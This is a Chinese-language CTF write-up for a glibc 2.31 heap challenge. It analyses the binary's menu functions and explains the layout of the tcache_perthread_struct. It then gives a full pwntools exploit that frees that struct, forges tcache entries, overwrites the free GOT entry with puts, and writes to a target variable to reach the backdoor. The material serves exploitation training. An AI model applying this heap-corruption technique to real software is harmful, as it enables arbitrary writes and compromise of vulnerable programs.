


看一下保护


程序got表可写，无pie，libc版本为2.31，有tcache



看下main，一个菜单题，c1 c2 c3 三个选项。



初始化函数设置了ptr为一个0x10大小的堆块，为全局变量


c1函数为一个可控大小的malloc，向其读入内容之后立刻free掉，此处为与大多数题目不一样的地方，因为malloc之后立刻free，所以在tcache attack的时候需要绕过free的重重检查。


c2函数为一个可控地址的free，借助ptr，堆地址完全可控，该free可以访问到任意堆地址


c3为后门函数，检查全局变量target是否被修改，若被修改了则得到flag。

分析到这里，本challenge正如题目所描述，我们的目的是达成一次unbelievable write，即向target中写入数据。

这里给出一个非预期解，打tcache控制块tcache perthread struct，该控制块位于堆地址首部，与ptr存在固定偏移，因此我们可以利用一次free将其释放，然后通过修改tcache控制块内容实现tcache attack，达到任意地址堆块分配。则只需分配到target处修改内容即可。

为绕过free函数限制，覆写free的got表为puts函数。

关于tcache 控制快的补充说明：

tcache控制块在堆初始化的时候分配，content区大小为0x280


其前0x80大小的内容为tcache数量，以2字节为单位，分别用于表示堆块大小从0x10~0x400共64种不同大小的tcache数量。

下面的0x200大小，以8字节为单位，共64个单位，分别记录从0x10~0x400大小的tcache的链表首个堆块的地址。

最终exp如下：

```python
from pwn import *
p = process("./pwn")
context.log_level = "debug"
binary = ELF('./pwn')

target = 0x404080

def backdoor():
    p.sendlineafter("> ","3")

def add(size,content):
    p.recvuntil(b"> ")
    p.sendline(b"1")
    p.sendline(str(size).encode())
    p.sendline(content)

def free(position):
    p.recvuntil(b"> ")
    p.sendline(b"2")
    p.sendline(str(position).encode())


free(-0x290)#free the tcache perthread struct

add(0x280,b'\x00'*0x10+b'\x01'+b'\x00'*0x6f+p64(0)*8+p64(binary.got['free']))

add(0x90,p64(binary.plt['puts']))#overwrite free got-->puts plt

add(0x280,b'\x00'*0x10+b'\x01'+b'\x00'*0x6f+p64(0)*8+p64(target))
add(0x90,"aaaa")#overwrite target to get flag

backdoor()

p.interactive()
```

By 【Del0n1x】

Keyboard
